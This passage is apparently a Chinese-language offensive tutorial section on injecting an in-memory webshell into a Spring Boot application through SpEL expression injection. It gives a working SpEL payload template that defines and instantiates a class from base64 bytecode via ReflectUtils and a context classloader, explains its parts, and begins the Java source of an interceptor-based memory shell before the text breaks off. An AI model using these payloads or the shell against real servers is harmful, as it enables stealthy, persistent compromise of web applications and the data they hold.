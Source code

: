 # 五、拖入小树林注入内存马

纯度宝典第五页，什么response问题我都不在意，我只需要加载我的内存马就足矣！  
这里有一个payload模板  
`#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}`  
自己简化后：  
`T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()`，接下来就逐步解析一下这个payload

## defineClass

首先我们需要确认我们的目的，我们目的就是加载一个类，并且将其实例化。这里选择了springboot自带的工具类`ReflectUtils`，因为他识别base64字节，然后加载它。很方便。

## ClassLoader

加载一个类需要指定classloader，我们肯定选定当前线程上下文的classLoader  
`T(java.lang.Thread).currentThread().getContextClassLoader()`  
第一个payload用到了Mlet这个类  
![image.png](assets/1698895942-b06ce4d2224940408c24aa6de799a8be.png)  
他实际上是URLClassLoader的实现类，所以我个人来说是不知道为啥选Mlet这个。我猜测是兼容问题，因为URLclassloader可以加载任意类吧。不管是远程还是本地的。这个地方注意一下。

## 内存马

内存马选用的话就springboot内存马就行了。我这里选了一个interceptor内存马

```java
import org.springframework.web.servlet.HandlerInterceptor;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.List;

public class InceptorMemShell extends AbstractTranslet implements HandlerInterceptor {

    static {
        System.out.println("staart");
```